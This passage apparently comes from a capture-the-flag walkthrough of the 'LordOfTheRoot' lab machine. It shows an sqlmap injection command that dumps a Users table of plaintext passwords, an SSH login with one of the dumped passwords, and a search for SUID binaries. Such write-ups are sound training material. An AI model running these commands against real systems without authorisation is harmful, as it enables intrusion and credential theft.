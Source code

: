 
Retrieving the user credentials from the table users.

```console
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp -T Users -C id,username,password --dump
...
Database: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
```


### Access via SSH

The credentials are in plain text, so we don't need to crack them, with the user smeagol, I was able to access via SSH.

```console
smeagol@192.168.179.161's password: 
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

 * Documentation:  https://help.ubuntu.com/

                            .____    _____________________________                              
                            |    |   \_____  \__    ___/\______   \                             
                            |    |    /   |   \|    |    |       _/                             
                            |    |___/    |    \    |    |    |   \                             
                            |_______ \_______  /____|    |____|_  /                             
                                    \/       \/                 \/                              
 __      __       .__                                ___________      .__                   .___
/  \    /  \ ____ |  |   ____  ____   _____   ____   \_   _____/______|__| ____   ____    __| _/
\   \/\/   // __ \|  | _/ ___\/  _ \ /     \_/ __ \   |    __) \_  __ \  |/ __ \ /    \  / __ | 
 \        /\  ___/|  |_\  \__(  <_> )  Y Y  \  ___/   |     \   |  | \/  \  ___/|   |  \/ /_/ | 
  \__/\  /  \___  >____/\___  >____/|__|_|  /\___  >  \___  /   |__|  |__|\___  >___|  /\____ | 
       \/       \/          \/            \/     \/       \/                  \/     \/      \/ 
Last login: Tue Sep 22 12:59:38 2015 from 192.168.55.135
smeagol@LordOfTheRoot:~$ id
uid=1000(smeagol) gid=1000(smeagol) groups=1000(smeagol)
```

Listing the SUID binary files, three of them catch my attention.

```console
smeagol@LordOfTheRoot:~$ find / -perm -4000 -type f 2>/dev/null 
...
/SECRET/door2/file
/SECRET/door1/file
/SECRET/door3/file
...
```
